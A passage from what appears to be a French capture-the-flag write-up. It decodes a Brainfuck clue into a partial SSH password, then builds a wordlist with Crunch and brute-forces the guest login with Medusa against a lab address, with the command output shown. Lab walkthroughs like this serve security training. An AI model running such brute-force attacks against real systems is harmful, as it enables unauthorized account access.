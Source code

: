 ```console
<++++ ++++[ ->+++ +++++ <]>++ +++++ +++++ .++++ +++++ .<+++ +[->- ---<]
>--.+ +++++ ++.<+ +++++ ++[-> ----- ---<] >---- ----- --.<+ +++++ ++[->
+++++ +++<] >+.<+ ++[-> +++<] >++++ .<+++ [->-- -<]>- .<+++ +++++ [->--
----- -<]>- ---.< +++++ +++[- >++++ ++++< ]>+++ +++.+ ++.++ +++.< +++[-
>---< ]>-.< +++++ +++[- >---- ----< ]>--- -.<++ +++++ +[->+ +++++ ++<]>
+++.< +++[- >+++< ]>+++ .+++. .<+++ [->-- -<]>- ---.- -.<++ ++[-> ++++<
]>+.< +++++ ++++[ ->--- ----- -<]>- --.<+ +++++ +++[- >++++ +++++ <]>++
.+.-- .---- ----- .++++ +.--- ----. <++++ ++++[ ->--- ----- <]>-- -----
.<+++ +++++ [->++ +++++ +<]>+ +++++ +++++ ++++. ----- ----. <++++ ++++[
->--- ----- <]>-- ----. <++++ ++++[ ->+++ +++++ <]>++ +++++ +++++ ++++.
<+++[ ->--- <]>-- ----. <++++ [->++ ++<]> ++..+ +++.- ----- --.++ +.<++
+[->- --<]> ----- .<+++ ++++[ ->--- ----< ]>--- --.<+ ++++[ ->--- --<]>
----- ---.- --.<
```

Il s'agit d'une portion de code en [Brainfuck](https://en.wikipedia.org/wiki/Brainfuck) qui, [une fois décodée](https://www.dcode.fr/langage-brainfuck), donne le texte suivant :

```console
You can enter into matrix as guest, with password k1ll0rXX

Note: Actually, I forget last two characters so I have replaced
with XX try your luck and find correct string of password.
```

## Génération de wordlists avec Crunch et attaque avec Medusa

Cela signifie qu'il va falloir tester un grand nombre de combinaisons, XX pouvant être des caractères majuscules, minuscules, spéciaux ou des chiffres. Pour cela, le générateur de wordlists [__Crunch__](https://tools.kali.org/password-attacks/crunch) est particulièrement adapté !

```console
root@blinils:~# crunch 8 8 -f /usr/share/crunch/charset.lst mixalpha-numeric-all-space -t k1ll0r@@ > login.db
Crunch will now generate the following amount of data: 81225 bytes
0 MB
0 GB
0 TB
0 PB
Crunch will now generate the following number of lines: 9025
```

Le charset choisi, ```mixalpha-numeric-all-space```, correspond aux 95 caractères suivants : ```abcdefghijklmnopqrstuvwxyz ABCDEFGHIJKLMNOPQRSTUVWXYZ 0123456789 !@#$%^&*()- _+=~\`[]{}|:;"'<>,.?/``` espace typographique comprise, soit un total de 95 x 95 = 9025 combinaisons possibles. Plutôt que de toutes les tester à la main, l'outil [__Medusa__](http://foofus.net/goons/jmk/medusa/medusa.html) va automatiser cette [attaque par dictionnaire](https://repo.zenk-security.com/Reversing%20.%20cracking/Cracking_Passwords_Guide.pdf).

```console
root@blinils:~# medusa -h 192.168.56.101 -u guest -P login.db -M ssh
Medusa v2.2 [http://www.foofus.net] (C) JoMo-Kun / Foofus Networks <jmk@foofus.net>

ACCOUNT CHECK: [ssh] Host: 192.168.56.101 (1 of 1, 0 complete) User: guest (1 of 1, 0 complete) Password: k1ll0raa (1 of 9025 complete)
ACCOUNT CHECK: [ssh] Host: 192.168.56.101 (1 of 1, 0 complete) User: guest (1 of 1, 0 complete) Password: k1ll0rab (2 of 9025 complete)
ACCOUNT CHECK: [ssh] Host: 192.168.56.101 (1 of 1, 0 complete) User: guest (1 of 1, 0 complete) Password: k1ll0rac (3 of 9025 complete)
ACCOUNT CHECK: [ssh] Host: 192.168.56.101 (1 of 1, 0 complete) User: guest (1 of 1, 0 complete) Password: k1ll0rad (4 of 9025 complete)
ACCOUNT CHECK: [ssh] Host: 192.168.56.101 (1 of 1, 0 complete) User: guest (1 of 1, 0 complete) Password: k1ll0rae (5 of 9025 complete)
ACCOUNT CHECK: [ssh] Host: 192.168.56.101 (1 of 1, 0 complete) User: guest (1 of 1, 0 complete) Password: k1ll0raf (6 of 9025 complete)
```